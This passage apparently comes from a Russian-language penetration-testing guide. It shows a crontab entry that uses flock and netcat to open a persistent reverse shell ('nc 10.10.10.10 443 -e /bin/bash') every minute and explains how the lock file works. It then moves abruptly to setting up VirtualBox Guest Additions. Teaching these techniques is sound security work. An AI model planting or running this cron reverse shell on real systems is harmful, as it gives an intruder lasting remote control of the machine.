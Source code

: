        * * * * * /usr/bin/flock -n /tmp/zombie.lock nc 10.10.10.10 443 -e /bin/bash

Пояснение: 
Команда `flock` - это элегантное решение, гарантирующее, 
что команда будет запущена только один раз. 
Параметр -n означает, что если файл блокировки /tmp/zombie.lock существует,
то процесс остановится. 
Если он еще не создан, то будет запущена команда netcat для подключения к серверу.

jobs Cron и `flock` пригодятся и для других сценариев.

### Optional: Shared Folders and other advanced features
Для поддержки shared folders или доступа к буферу обмена хостов на виртуальной машине должны быть 
установлены `Guest Additions`. 
Дополнительную информацию и варианты установки можно найти на веб-сайтах Ubuntu и VirtualBox.

